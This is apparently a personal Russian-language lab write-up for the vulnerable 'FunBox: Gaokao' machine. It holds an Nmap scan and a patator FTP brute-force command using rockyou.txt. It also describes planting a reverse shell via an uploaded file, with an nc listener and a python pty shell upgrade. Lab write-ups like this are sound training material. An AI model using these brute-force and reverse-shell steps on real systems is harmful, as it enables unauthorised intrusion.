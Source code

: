 > [!tip]- Nmap
>  PORT     STATE SERVICE VERSION
21/tcp   open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 ftp      ftp           169 Jun  5  2021 welcome.msg
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 48:39:31:22:fb:c2:03:44:a7:4e:c0:fa:b8:ad:2f:96 (RSA)
|   256 70:a7:74:5e:a3:79:60:28:1a:45:4c:ab:5c:e7:87:ad (ECDSA)
|_  256 9c:35:ce:f6:59:66:7f:ae:c4:d1:21:16:d5:aa:56:71 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wellcome to Funbox: Gaokao !
3306/tcp open  mysql   MySQL 5.7.34-0ubuntu0.18.04.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.34_Auto_Generated_Server_Certificate
| Not valid before: 2021-06-05T15:15:30
|_Not valid after:  2031-06-03T15:15:30
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.34-0ubuntu0.18.04.1
|   Thread ID: 14
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, Speaks41ProtocolOld, ODBCClient, FoundRows, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, Support41Auth, SupportsCompression, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, LongColumnFlag, LongPassword, SupportsLoadDataLocal, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x0F)\x0BaLM\x17\x18Q#\x7FS.{\x0CiL\x0BCm
|_  Auth Plugin Name: mysql_native_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

>[!tip]- mysql
> Host: 192.168.72.133 
 Port: 3306 
>DBName: skys_db
Tables:
TableName: user
Columns:
ColumnName: user
ColumnType: varchar(64)
 ColumnName: password
  ColumnType: varchar(64)


при подключение к apache никакой информации нет
при подключение к ftp (anonymous) видим приветственное сообщение 
![](../../../attachment/Pasted%20image%2020241004105309.png)
В нем есть возможный логин/юзер для ftp сервера
Пробуем запустить брут patator ftp_login host=192.168.72.133 user=sky password=FILE0 0=Downloads/rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500 
 и видим положительный результат [[Задачи Cyber ED/Vuln - FunBox/пароли+логины|пароли+логины]]
 качаем флаг на свою машину (ls, get user.flag) 
 изменяем файл user.flag на основной машине чтобы был reverse shell ![](../../../attachment/Pasted%20image%2020241004130003.png)
 запускаем lftp sky@192.168.72.133 для облегчения жизни
 загружаем изменный файл (put user.flag),запускаем на основной машине nc -nvlp 4444 и запускаем cat user.flag
 В полученном обратном шелле делаем повышение python3 -c 'import pty;pty.spawn("/bin/bash")'

